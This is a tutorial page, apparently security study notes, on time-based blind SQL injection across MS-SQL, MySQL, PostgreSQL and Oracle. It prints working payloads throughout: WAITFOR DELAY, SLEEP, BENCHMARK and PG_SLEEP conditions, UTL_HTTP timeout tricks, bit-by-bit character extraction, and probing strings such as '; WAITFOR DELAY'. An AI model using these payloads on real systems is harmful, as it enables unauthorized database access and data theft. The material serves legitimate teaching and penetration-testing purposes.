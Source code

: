 # Using Time Delays

In **fully blind SQL injection** scenarios—where:
* No results are returned to the browser
* Out-of-band channels are blocked
* Application behavior does not visibly change
* Even error messages are suppressed

—**time-based inference** can be used to extract data, one bit at a time, by measuring **response delays**.

---

## **Basic Concept**

A **conditionally triggered delay** is introduced via an injected query. The attacker monitors the **response time** to infer the **truth** of a condition:
- Delay = condition is **true**
- No delay = condition is **false**

Over multiple requests, this allows exfiltration of **any data**, bit-by-bit or character-by-character.

---

## **MS-SQL**

Uses the built-in `WAITFOR DELAY` statement:
```sql
IF (SELECT user) = 'sa' WAITFOR DELAY '0:0:5'
```

### Character extraction via ASCII/SUBSTRING:
```sql
IF ASCII(SUBSTRING('Admin',1,1)) = 65 WAITFOR DELAY '0:0:5'
```

### Bit-by-bit extraction using `POWER` and `&`:
```sql
-- Test if bit 0 is set
IF (ASCII(SUBSTRING('Admin',1,1)) & POWER(2,0)) > 0 WAITFOR DELAY '0:0:5'

-- Test if bit 1 is set
IF (ASCII(SUBSTRING('Admin',1,1)) & POWER(2,1)) > 0 WAITFOR DELAY '0:0:5'
```

---

## **MySQL**

### Modern versions (≥ 5.0.12):
Use `SLEEP(seconds)` to create a delay:
```sql
SELECT IF(user() LIKE 'root@%', SLEEP(5), 'false')
```

### Older versions (< 5.0.12):
Use `BENCHMARK` with a CPU-intensive operation:
```sql
SELECT IF(user() LIKE 'root@%', BENCHMARK(50000, SHA1('test')), 'false')
```

---

## **PostgreSQL**

Use `PG_SLEEP(seconds)`:
```sql
SELECT CASE WHEN (SELECT current_user) = 'postgres' THEN PG_SLEEP(5) ELSE 0 END
```

---

## **Oracle**

No direct delay function, but possible workarounds:

### 1. Use **UTL_HTTP** to connect to a non-existent domain:
```sql
SELECT 'a' || UTL_HTTP.REQUEST('http://madeupserver.com') FROM dual
```
This results in a **connection timeout**, causing a measurable delay.

### 2. Conditional timeout (based on existence of user `DBSNMP`):
```sql
SELECT 'a' || UTL_HTTP.REQUEST('http://madeupserver.com')
FROM dual
WHERE (SELECT username FROM all_users WHERE username = 'DBSNMP') = 'DBSNMP'
```

- Delay occurs **only if condition is true**.

> Can be used in conjunction with `SUBSTR` and `ASCII` for byte-wise extraction.

---

## **Detection Use Case (Initial Probing)**

Time delays are not just for data extraction—they're also the **most reliable technique for detecting blind SQL injection**.

### Example detection payloads (MS-SQL):
```sql
'; WAITFOR DELAY '0:0:5'-- 
1; WAITFOR DELAY '0:0:5'--
```

> These can be injected into parameters to check for **unusual response time**, signaling potential injection.

---

## **TIP**

- **Time delays** are effective for:
  * **Extraction**: Bitwise or character-level data retrieval.
  * **Detection**: Identifying blind SQLi vulnerabilities when no visible output is available.
- Always account for **natural network latency** to avoid false positives.
- Time-based inference can be **automated** using tools like SQLMap (`--technique=T`) or custom scripts.

---
